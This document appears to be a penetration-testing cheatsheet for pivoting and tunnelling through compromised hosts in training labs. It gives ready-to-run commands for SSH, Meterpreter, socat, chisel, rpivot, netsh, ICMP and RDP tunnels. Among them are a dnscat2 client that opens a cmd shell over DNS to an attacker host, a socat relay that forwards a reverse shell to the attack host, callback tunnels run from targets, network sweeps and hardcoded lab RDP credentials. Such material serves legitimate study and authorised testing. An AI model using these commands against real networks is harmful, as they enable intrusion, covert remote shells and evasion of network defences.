 ## Dynamic Port Forwarding SSH and SOCKS Tunneling

![image](https://github.com/0x4rs3nic/Cheatsheets/assets/150775096/1b6c00ee-569f-4721-b746-903f66743426)
```
# Local port forward
ssh -L 1234:localhost:3306 Ubuntu@10.129.202.64

# Multiple local port forward
ssh -L 1234:localhost:3306 8080:localhost:80 ubuntu@10.129.202.64

# Confirm port forward
netstat -antp | grep 1234
```

![image](https://github.com/0x4rs3nic/Cheatsheets/assets/150775096/b0cbbc78-327c-415f-a882-c5023a93efa0)
```
# Dynamic port forwarding
ssh -D 9050 ubuntu@10.129.202.64

# Route traffic through porxychains
proxychains nmap -v -sn 172.16.5.1-200
proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```

## Remote/Reverse Port Forwarding with SSH

![image](https://github.com/0x4rs3nic/Cheatsheets/assets/150775096/3dc9c1bd-5311-439f-a82f-e6209304d095)


```
ssh -R <InternalIPofPivotHost>:8080:0.0.0.0:8000 ubuntu@<ipAddressofTarget> -vN

```



##Meterpreter Tunneling & Port Forwarding

```
# Ping sweep with various methods
run post/multi/gather/ping_sweep RHOSTS=172.16.5.0/23 # MSF
for i in {1..254} ;do (ping -c 1 172.16.5.$i | grep "bytes from" &) ;done # Linux
for /L %i in (1 1 254) do ping 172.16.5.%i -n 1 -w 100 | find "Reply" # cmd
1..254 | % {"172.16.5.$($_): $(Test-Connection -count 1 -comp 172.16.5.$($_) -quiet)"} # Powershell

# Set up SOCKS proxy with MSF
use auxiliary/server/socks_proxy
socks4 	127.0.0.1 9050 # Add line to conf file
# START THE PROXY AND SET TO 4a

# Use autoroute for pivoting 
use post/multi/manage/autoroute
run autoroute -s 172.16.5.0/23 # Add route
run autoroute -p # List active routes

# Create local forward from MSF
portfwd add -l 3300 -p 3389 -r 172.16.5.19
portfwd add -R -l 8081 -p 1234 -L 10.10.14.18 # Reverse
```

## Using Socat

```
# Redirect reverse shell to attack host (forwards packets to attack host)
socat TCP4-LISTEN:8080,fork TCP4:10.10.14.18:80

# Redirect bind shell to attack host (forward packets to Windows Host)
socat TCP4-LISTEN:8080,fork TCP4:172.16.5.19:8443
```

![](https://images.spr.so/cdn-cgi/imagedelivery/j42No7y-dcokJuNgXeA0ig/d69cc998-d7f5-465e-82fe-61fba8605685/Untitled/w=1920,quality=80)

## Pivoting around a Network

```
# With Plink
plink -D 9050 ubuntu@10.129.15.50

# With SSHuttle
sudo sshuttle -r ubuntu@10.129.202.64 172.16.5.0/23 -v

# With rpivot
python2.7 server.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.0
python2.7 client.py --server-ip 10.10.14.18 --server-port 9999 # From targets
```

![](https://images.spr.so/cdn-cgi/imagedelivery/j42No7y-dcokJuNgXeA0ig/365b73d6-4df5-4651-9713-3cf1877cb4ad/Untitled/w=1920,quality=80)

```
# Using netsh.exe
netsh.exe interface portproxy add v4tov4 listenport=8080 listenaddress=10.129.15.150 connectport=3389 connectaddress=172.16.5.25
netsh.exe interface portproxy show v4tov4

# Then connect to the machine through the pivot
xfreerdp /v:10.129.42.198:8080 /u:victor /p:pass@123
```

![](https://images.spr.so/cdn-cgi/imagedelivery/j42No7y-dcokJuNgXeA0ig/365b73d6-4df5-4651-9713-3cf1877cb4ad/Untitled/w=1920,quality=80)

## DNS Tunneling

- https://github.com/iagox86/dnscat2
- https://github.com/lukebaggett/dnscat2-powershell

```
# Server side 
sudo ruby dnscat2.rb --dns host=10.10.14.18,port=53,domain=inlanefreight.local --no-cache

# Client side (with powershell)
Import-Module .\dnscat2.ps1
Start-Dnscat2 -DNSserver 10.10.14.18 -Domain inlanefreight.local -PreSharedSecret 0ec04a91cd1e963f8c03ca499d589d21 -Exec cmd

# Enter session 
window -i [id]
```

## SOCKS5 Tunneling with Chisel

**Chisel Pivot**

```
# Chisel server on pivot host
./chisel server -v -p 1234 --socks5

# Connect to the pivot host
./chisel client -v 10.129.202.64:1234 socks

# Proxychains config file
tail -f /etc/proxychains.conf
```

**Chisel Reverse Pivot**

```
# Chisel server on attack host
sudo ./chisel server --reverse -v -p 1234 --socks5

# Chisel client on pivot host
./chisel client -v 10.10.14.17:1234 R:socks
```

## ICMP Tunneling

- https://github.com/utoni/ptunnel-ng

```
# ptunnel server on target host
sudo ./ptunnel-ng -r10.129.202.64 -R22

# Connect from attack host
sudo ./ptunnel-ng -p10.129.202.64 -l2222 -r10.129.202.64 -R22

# Tunnel SSH through ICMP
ssh -p2222 -lubuntu 127.0.0.1
```

## RDP and SOCKS Tunneling with SocksOverRDP

- https://github.com/nccgroup/SocksOverRDP/releases
- https://www.proxifier.com/download/#win-tab

```
# Load SocksOverRDP dll on pivot host
regsvr32.exe SocksOverRDP-Plugin.dll

# Connect to other host and start server
SocksOverRDP-Server.exe

# Configure SOCKS profile on port 1080 
# RDP to wanted host
```

